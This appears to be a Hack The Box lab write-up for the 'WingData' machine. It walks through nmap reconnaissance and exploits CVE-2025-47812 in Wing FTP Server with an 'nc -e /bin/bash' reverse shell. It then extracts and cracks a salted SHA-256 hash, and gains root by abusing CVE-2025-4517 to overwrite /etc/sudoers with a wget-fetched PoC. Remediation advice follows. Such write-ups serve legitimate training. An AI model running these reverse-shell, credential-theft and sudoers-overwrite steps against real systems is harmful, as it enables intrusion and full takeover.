

## Tools Utilized

To execute the assessment methodology, specific utilities and toolkits are leveraged:

| Tool | Version / Reference | Purpose |
| :--- | :--- | :--- |
| **Nmap** | v7.94+ | Network discovery and service/version scanning |
| **OpenSSH Client** | v9.6p1+ | Remote shell access and lateral movement |
| **Hashcat** | v6.2.6+ | Offline cryptographic password cracking |
| **Python** | v3.12+ | Exploit scripting, local server hosting, and vulnerability analysis |

---

## Connection & Setup

To begin, a secure connection to the Hack The Box laboratory environment must be established. First, after authenticating into the platform, the specific target machine is searched for. Since HTB separates its infrastructure into different environments, the VPN access settings must be adjusted to match the specific lab where the target resides. To optimize the connection, a VPN server location with the lowest latency relative to the physical testing workstation is chosen. The UDP protocol is generally selected to achieve higher connection speeds, although TCP can be used as an alternative to bypass restrictive firewalls. Once the configuration is properly set for the target's specific environment, the corresponding .ovpn connection file is downloaded to the local system. 


Before deploying the target, the secure tunnel is initialized locally. A terminal is opened on the penetration testing workstation, and the OpenVPN client is executed with administrative privileges using the downloaded configuration file:

```bash
sudo openvpn [LAB_USERNAME].ovpn
```

The connection log is observed until the success message `Initialization sequence completed` is displayed, confirming that the encrypted tunnel has been successfully established.


Once the VPN connection is verified, return to the **WingData** machine page on the platform. Click the "Start Machine" button to activate the target instance. The machine's IP address will be assigned and displayed directly in the interface.


Finally, to verify stable network connectivity and confirm that the target host is reachable through the VPN tunnel, ICMP echo requests are sent using the `ping` utility:

```bash
ping -c 4 [IP_TARGET]
```

Once the ping response is confirmed, it means that a direct and bidirectional communication has been established.


---

## 1. Reconnaissance (Enumeration)

With the VPN connection established, a enumeration phase is initiated to discover open ports, identify active services, configure necessary domain names, and map the application environment.

To optimize the scanning process, a two-phase approach is used. Since this assessment is conducted in a controlled lab environment where stealth evasion is not a requirement, a fast and highly aggressive port discovery scan is run on all 65,535 TCP ports (-p-) to obtain results quickly. This rapid visibility of the attack surface is achieved through a fast SYN scan (-sS) combined with a high packet rate limit (--min-rate 5000). Although too noisy for stealth operations, this configuration is used to maximize scan speed within a controlled laboratory environment. To further speed up scanning and bypass potential basic firewall blocks, reverse DNS resolution (-n) is disabled and initial host discovery (-Pn) is skipped, as the target's availability has already been confirmed. Finally, maximum verbosity (-vvv) is enabled to monitor discoveries in real time, and the output is filtered to show only active entry points (--open) before being saved to a text file.

```bash
sudo nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn [IP_TARGET] -oN open-ports.txt
```

*This initial phase successfully identifies ports **22** and **80** as open.*


Following the discovery of the open ports, a focused service scanning and script auditing process is launched. This secondary scan is restricted strictly to the ports identified in before Phase (-p [PORTS]). To gather detailed information, the scan attempts to determine the exact service versions running (-sV) and executes default Nmap Scripting Engine (NSE) scripts (-sC) to identify common configurations or vulnerabilities.

```bash
sudo nmap -p [PORTS] -sC -sV -vvv -n -Pn [IP_TARGET] -oN specific-ports.txt
```

*The targeted scan reveals that port 22 is running an **OpenSSH service**, while port 80 hosts an **HTTP web server** that actively redirects incoming traffic to* `wingdata.htb`.


The web application redirects incoming connections to `wingdata.htb`. To ensure the browser can access the site, this domain is mapped to the destination IP address by updating the local `/etc/hosts` file:

```bash
echo "[IP_TARGET] wingdata.htb" | sudo tee -a /etc/hosts
```


Once the domain is configured, the main URL `http://wingdata.htb` is accessed using a web browser. Navigating the homepage reveals a "Customer Portal" button. Inspecting this element with the browser's developer tools shows that its hyperlink points to a new and previously unknown subdomain: `http://ftp.wingdata.htb`.
   


Since this subdomain does not resolve dynamically, it must also be mapped to the target IP address in the `/etc/hosts` file:

```bash
echo "[IP_TARGET] ftp.wingdata.htb" | sudo tee -a /etc/hosts
```

After successfully routing traffic and accessing `http://ftp.wingdata.htb`, a login portal is displayed. A simple visual inspection of the footer directly identifies the hosted service, specifically that Wing FTP Server v7.4.3 is running.


---

## 2. Vulnerability Analysis

Based on the service version and configurations identified during the enumeration phase, an investigation was conducted to identify public vulnerabilities. This process revealed a critical flaw ([CVE-2025-47812](https://nvd.nist.gov/vuln/detail/CVE-2025-47812)) with a [CVSS v3.1 score of 9.8](https://www.first.org/cvss/calculator/3.1), affecting [Wing FTP Server](https://www.wftpserver.com/) versions prior to and including v7.4.3.

The vulnerability is located in the authentication process  of the Wing FTP Server web administration interface. Specifically, the frontend database query (compiled in C) stops processing input at a null byte (%00), effectively bypassing name validation. In contrast, the backend session manager (running Lua) interprets strings by length instead of null termination, allowing the remaining payload to be parsed and executed.

As a result, an unauthenticated remote attacker can inject and execute Lua code, allowing arbitrary operating system commands to be executed as the `wingftp` service account.

---

## 3. Exploitation

### Initial Compromise

After the vulnerability was identified, an open-source search was conducted to locate available exploit code. Through this search, a working [proof of concept (PoC)](https://github.com/4m3rr0r/CVE-2025-47812-poc)  was discovered on GitHub. To proceed with the initial intrusion, this repository was cloned locally for the authentication bypass to be carried out:

```bash
git clone https://github.com/4m3rr0r/CVE-2025-47812-poc.git
cd CVE-2025-47812-poc
```


A quick inspection confirmed the integrity of the `CVE-2025-47812.py` script, ensuring that it only executes the expected HTTP POST request. Once validated, a separate terminal session is opened to establish a Netcat listener, which is necessary to capture the incoming connection.

```bash
nc -lvnp [LPORT]
```


With the listener running, the exploit is launched against the target URL`ftp.wingdata.htb`. The payload is explicitly configured to execute a reverse shell that connects to the local machine.

   ```bash
   python3 CVE-2025-47812.py -u http://ftp.wingdata.htb -c "nc [LHOST] [LPORT] -e /bin/bash" -v
   ```


### Credentials Extraction

With access established as the wingftp user, local post-exploitation enumeration is directly on the target host to locate configuration files containing credentials. First, running processes are checked to locate server installation directory:

```bash
ps aux | grep wftpserver
```

The command output reveals the active process executing from `/opt/wftpserver/bin/wftpserver`, identifying `/opt/wftpserver` as the primary service directory.

Based on this finding,  recursive search for XML files is executed inside the identified installation directory to locate user configuration profiles:

```bash
find /opt/wftpserver/ -name "*.xml" 2>/dev/null
```

Multiple user configuration XML files are found, including maria.xml, steve.xml, john.xml, and wacky.xml. Cross-referencing these names against the target host's /etc/passwd file reveals that wacky is the only non-privileged user account with local login capabilities on the operating system. Consequently, wacky is selected as the primary target for credential cracking. The configuration file wacky.xml is read to extract the account's SHA-256 password hash:

```bash
cat /opt/wftpserver/Data/1/users/wacky.xml
```


### Offline Password Cracking

To decrypt the retrieved hash, the cryptographic algorithm and hashing scheme are analyzed, and a dictionary attack is performed offline on the local machine. The extracted hash has a length of 64 hexadecimal characters (256 bits), matching the exact signature of a SHA-256 algorithm. Furthermore, public technical documentation for Wing FTP Server confirms that user passwords are encrypted using a custom salted scheme where a static salt string (WingFTP) is appended to the plaintext password: sha256(password + "WingFTP").

Hashcat supports this specific format `sha256($pass.$salt)` under mode 1410. To crack this, the input must be formatted as `<hash>:<salt>`. The hash and the static salt are written into a text file:

```bash
echo "[HASH_EXTRACTED]:WingFTP" > wacky_hash.txt
```

Next, a dictionary attack is launche to identify the password in plaintext. The Hashcat utility is executed using the specific hash mode (-m 1410), the formatted input file (wacky_hash.txt), and the wordlist rockyou.txt. An optional parameter (--potfile-disable) can be included to bypass the local database and force a full execution of the wordlist to show the decryption progress.

```bash
hashcat -m 1410 wacky_hash.txt /usr/share/wordlists/rockyou.txt --potfile-disable
```

The attack successfully cracks the hash, recovering the plaintext password: 


### Lateral Movement

Using the cracked credentials, lateral movement is performed via SSH. An SSH connection is established using the newly compromised username:

```bash
ssh wacky@[IP_TARGET]
```

Once logged in, the `user.txt` flag is accessed in the user's home directory:
   
```bash
cat user.txt
```


---

## 4. Privilege Escalation

Once access is established as the `wacky` user, post-exploitation auditing is performed to discover escalation paths to the root account. First, the user's permitted commands are checked using the `sudo -l` utility:

```bash
sudo -l
```

The configuration shows that a Python backup restoration script can be run as root without a password. The key is that a wildcard at the end allows passing any arguments or paths to the script. This means an attacker can specify any backup folder and bypass the intended restrictions.


Since the current user can read the restoration script, the source code is reviewed to understand how the backend extraction works.

```bash
cat /opt/backup_clients/restore_backup_clients.py
```

The script is found to import the Python `tarfile` module and execute the `extractall` function using the `data` filter.


This script is affected by [CVE-2025-4517](https://nvd.nist.gov/vuln/detail/CVE-2025-4517), a serious bug with a CVSS score of 7.5 that impacts Python 3.12.x. The problem is in the `tarfile` module's validation when using the data filter. The `extractall` function processes entries in order. If a malicious .tar file includes a symlink to a protected folder like `/etc`, followed by a hard link, the validation fails to detect the link chain correctly. This allows the hard link to overwrite important system files like `/etc/sudoers`. Because the script runs as root through `sudo`, this gives a clear path to privilege escalation.

To exploit this vulnerability, a public [proof of concept (PoC)](https://github.com/AzureADTrent/CVE-2025-4517-POC-HTB-WingData) repository designed specifically for this environment is cloned to the local attack machine, and a temporary HTTP server is started to host the exploit script:

```bash
git clone https://github.com/AzureADTrent/CVE-2025-4517-POC-HTB-WingData.git
cd CVE-2025-4517-POC-HTB-WingData
```

```bash
python3 -m http.server 8000
```


Prior to transferring the code to the target, the `CVE-2025-4517-POC.py` script is audited to verify its operations. It is confirmed that the script generates a custom .tar archive containing the required symlink and hard link sequence, executes the vulnerable sudo command, forces the overwrite of `/etc/sudoers` to grant root permissions to the `wacky` user, and ultimately spawns a shell.

Once verified, the working directory on the target machine is shifted to `/tmp`, and the exploit script is downloaded using the wget utility:

```bash
cd /tmp
wget http://[LHOST]:8000/CVE-2025-4517-POC.py
```
   
The exploit is then executed:

```bash
python3 /tmp/CVE-2025-4517-POC.py
```


The script packages the malicious tarball, triggers the vulnerable backup restore process, and successfully overwrites the /etc/sudoers file. An interactive prompt is then presented asking to spawn a root shell.

```bash
whoami
cat /root/root.txt
```


---

## 5. Remediation and Mitigation

To protect the target system and prevent similar attack vectors, the following actions are recommended:

- Update Wing FTP Server to the latest available version to prevent attacks exploiting outdated technologies.
- Update Python to the latest available version to correct the vulnerability identified in the report.
- Strengthen sudo permissions by updating the wildcard configuration in /etc/sudoers, restricting access by removing the * parameter and defining explicit paths or strict validation rules.
- Improve password hashing by replacing the static salt scheme (sha256(password + "WingFTP")) with dynamic and unique salts, and updating the hash algorithm to a memory-intensive key derivation function.

---

## 6. Post-Exploitation Cleanup

To leave the target machine in its original state and minimize the forensic footprint of the assessment, post-exploitation cleanup activities are performed. First, the exploit Python script transferred to the target's temporary directory is deleted:

```bash
rm /tmp/CVE-2025-4517-POC.py
```

Next, any malicious `.tar` archives or files extracted inside the staging environment (`/opt/backup_clients/restored_backups/`) are removed to prevent residual footprints or script failures on subsequent legitimate executions:

```bash
rm -rf /opt/backup_clients/restored_backups/*
```

Finally, since the privilege escalation script modified `/etc/sudoers`, the original file is restored from its backup copy (`sudoers.bak`) to ensure the system permissions are reset to their secure, default state:

```bash
mv /etc/sudoers.bak /etc/sudoers
```

---

## 7. Attack Chain Summary

The full sequence of compromise, from initial network mapping to root shell access, is summarized below:


